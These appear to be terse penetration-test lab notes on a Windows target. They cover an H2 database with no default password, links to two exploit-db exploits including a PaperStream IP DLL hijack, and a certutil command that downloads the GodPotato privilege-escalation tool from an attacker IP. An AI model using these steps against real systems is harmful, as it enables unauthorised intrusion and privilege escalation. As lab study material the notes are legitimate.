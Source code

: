 
- Default credential is none, just pressing connect connect the H2 Database.
- Then the exploit below can be used
https://www.exploit-db.com/exploits/49384
- Used certutil to transfer files 
```cmd
certutil.exe -urlcache -split -f http://192.168.45.213/GodPotato/GodPotato-NET4.exe C:\\Users\\tony\\g.exe
```
- Found a vulnerability in the app PaperStream IP and created a dll for 32 bit architecture.
https://www.exploit-db.com/exploits/49382
- Added System variables
```cmd
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```

